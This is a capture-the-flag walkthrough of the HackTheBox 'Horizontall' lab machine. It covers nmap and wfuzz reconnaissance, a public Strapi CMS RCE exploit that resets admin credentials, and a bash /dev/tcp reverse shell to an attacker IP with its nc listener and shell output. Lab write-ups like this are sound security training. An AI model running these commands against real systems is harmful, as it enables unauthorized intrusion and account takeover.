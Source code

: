 ## Issues

### horizontall.htb is an invalid host

Add these entries to `/etc/hosts` (IP may be different):

    10.10.11.105    horizontall.htb
    10.10.11.105    api-prod.horizontall.htb

## Recon

### nmap

    ┌─[✗]─[vagrant@parrot]─[~]
    └──╼ $nmap -sC -sV 10.10.11.105
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-30 16:44 GMT
    Nmap scan report for 10.10.11.105
    Host is up (0.16s latency).
    Not shown: 989 closed tcp ports (conn-refused)
    PORT      STATE    SERVICE     VERSION
    22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
    |   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
    |_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
    80/tcp    open     http        nginx 1.14.0 (Ubuntu)
    |_http-server-header: nginx/1.14.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://horizontall.htb
    1031/tcp  filtered iad2
    4003/tcp  filtered pxc-splr-ft
    5963/tcp  filtered indy
    7512/tcp  filtered unknown
    8045/tcp  filtered unknown
    9418/tcp  filtered git
    21571/tcp filtered unknown
    32768/tcp filtered filenet-tms
    49165/tcp filtered unknown
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 39.37 seconds

There's an HTTP server.

I got lazy and looked at a [writeup](https://infosecwriteups.com/horizontall-hackthebox-walkthrough-13090d7d59a2). Apparently we're supposed to fuzz "virtual hosts".

## subdomain evaluation

May take a while. Can use `sudo iftop -i tun0` to see how much traffic is being sent.

    wfuzz -w ~/Git/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u horizontall.htb --hc 301 -v -c -H "Host:FUZZ.horizontall.htb"

Request # 000047093 gives us HTTP 200.

In `~/Git/SecLists/Discovery/DNS/subdomains-top1million-110000.txt`, line 47093:

    api-prod

## api-prod.horizontall.htb

Just a blank page that says "welcome".

[Time to fuzz!](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html)

    wfuzz --sc 200 -w ~/Git/SecLists/Discovery/Web-Content/directory-list-1.0.txt http://api-prod.horizontall.htb/FUZZ

### Results

-   /reviews
    -   Some JSON API.
    -   Both `/reviews/1` and `/reviews?id=1` work
-   /admin
    -   "strapi" CMS login, redirects to `/admin/auth/login`

According to the writeup I shamelessly stole the answer from, there's some RCE bug that affects the strapi CMS.

So, going to see if I can find the RCE bug in MSF.

## strapi RCE bug

Well, I googled "MSF strapi" and found an exploit script:

<https://www.exploit-db.com/exploits/50239>

Didn't run it, but reading it, saw they query `/admin/init` for the version to see if the exploit would work.

<http://api-prod.horizontall.htb/admin/init> returns `3.0.0-beta.17.4`:

    {"data":{"uuid":"a55da3bd-9693-4a08-9279-f9df57fd1817","currentEnvironment":"development","autoReload":false,"strapiVersion":"3.0.0-beta.17.4"}}

So, it's vulnerable, and we should be able to exploit this RCE bug.

### The exploit

    python ./strapi-cms-rce.py http://api-prod.horizontall.htb

This allows us to log in as the admin user in strapi and resets the admin's creds to `admin:SuperStrongPassword1`

You can also execute RCE as well -- `sleep 20` seems to sleep, which is fantastic.

#### Get reverse shell

Let's try to start a reverse shell.

    Note: These may change. Run `ip a` to see your IP.
    Attacker IP:    10.10.14.64
    Victim IP:      10.10.11.105

Attacker (listens for connections):

    nc -lvp 6969

Victim (init TCP connection to attacker):

    bash -c 'bash -i >& /dev/tcp/10.10.14.64/6969 0>&1'

And it works! We have shell.

```
┌─[vagrant@parrot]─[~]
└──╼ $nc -lvp 6969
listening on [any] 6969 ...
connect to [10.10.14.64] from horizontall.htb [10.10.11.105] 37142
bash: cannot set terminal process group (1897): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:~/myapi$ whoami
whoami
strapi
strapi@horizontall:~/myapi$ 
```